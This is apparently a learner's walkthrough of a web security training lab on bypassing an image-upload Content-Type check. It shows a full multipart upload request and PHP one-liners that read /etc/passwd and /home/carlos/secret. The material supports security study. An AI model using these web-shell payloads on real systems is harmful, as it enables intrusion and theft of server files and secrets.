


# Web shell upload via Content-Type restriction bypass

## This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

upload an image
and try to upload a php extension file it will not upload
so go to burpsuite
go to image upload url request send to repeater

POST /my-account/avatar HTTP/1.1
delete image data

change file name to test.php
meme.jpg to test.php
and write a php code for retrive passwd file

<?php echo file_get_contents('/etc/passwd'); ?>

------WebKitFormBoundaryWyoaXbBkmlSFjFw0
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd'); ?>

------WebKitFormBoundaryWyoaXbBkmlSFjFw0
Content-Disposition: form-data; name="user

it will succesfully uploaded

### step2

GET /files/avatars/meme.jpg HTTP/1.1
change to test .php
and send request

GET /files/avatars/test.php HTTP/1.1

you will get all passwd file

now do **\_\_\_\_**

### step 1 for secret code

<?php echo file_get_contents('/home/carlos/secret'); ?>

and ### step2
send get request for test.php file

